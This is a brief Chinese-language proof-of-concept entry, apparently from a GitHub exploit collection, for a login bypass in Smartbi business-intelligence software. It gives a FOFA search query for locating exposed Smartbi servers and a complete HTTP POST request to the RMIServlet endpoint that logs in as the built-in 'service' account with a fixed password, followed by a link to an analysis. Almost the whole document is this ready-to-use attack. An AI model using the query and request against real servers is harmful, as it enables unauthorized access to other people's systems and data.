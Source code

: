 ## Smartbi 内置用户登陆绕过

## fofa
```
body="gcfutil = jsloader.resolve('smartbi.gcf.gcfutil')"
```

## poc
```
POST /smartbi/vision/RMIServlet HTTP/1.1
Host: 172.16.170.231:18080
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 68

className=UserService&methodName=loginFromDB&params=["service","0a"]
```

![image](../../images/419e82b7-4236-416d-91ef-74caf533e8ae.png)


## 漏洞分析
- https://exp.ci/2023/06/17/Smartbi-%E5%86%85%E7%BD%AE%E7%94%A8%E6%88%B7%E7%99%BB%E9%99%86%E7%BB%95%E8%BF%87%E5%88%86%E6%9E%90/
